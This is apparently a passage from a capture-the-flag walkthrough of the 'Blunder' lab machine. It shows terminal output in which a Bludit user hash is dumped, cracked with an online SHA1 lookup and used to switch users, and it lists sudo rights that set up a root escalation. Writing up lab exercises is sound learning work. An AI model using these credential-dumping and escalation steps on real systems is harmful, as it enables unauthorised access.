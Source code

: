 ~~~
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
}www-data@blunder:/var/www/bludit-3.9.2/bl-content$ ls -la /home
ls -la /home
total 16
drwxr-xr-x  4 root  root  4096 Apr 27 14:31 .
drwxr-xr-x 21 root  root  4096 Apr 27 14:09 ..
drwxr-xr-x 16 hugo  hugo  4096 May 26 09:29 hugo
drwxr-xr-x 16 shaun shaun 4096 Apr 28 12:13 shaun
~~~

faca404fd5c0a31cf1897b823c695c85cffeb98d == Password120 en sha1: [https://sha1.gromweb.com/?hash=faca404fd5c0a31cf1897b823c695c85cffeb98d](https://sha1.gromweb.com/?hash=faca404fd5c0a31cf1897b823c695c85cffeb98d)

~~~
www-data@blunder:/var/www/bludit-3.9.2/bl-content$ su hugo
su hugo
Password: Password120

hugo@blunder:/var/www/bludit-3.9.2/bl-content$ cd /home/hugo
cd /home/hugo
hugo@blunder:~$ cat users.txt
cat users.txt
cat: users.txt: No such file or directory
hugo@blunder:~$ ls
ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
hugo@blunder:~$ cat user.txt
cat user.txt
e2aa5bddc5737359a6b3bc36d58cd3ee
~~~

## 2 - Root

~~~
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:~$ sudo bash
sudo bash
Sorry, user hugo is not allowed to execute '/usr/bin/bash' as root on blunder.
~~~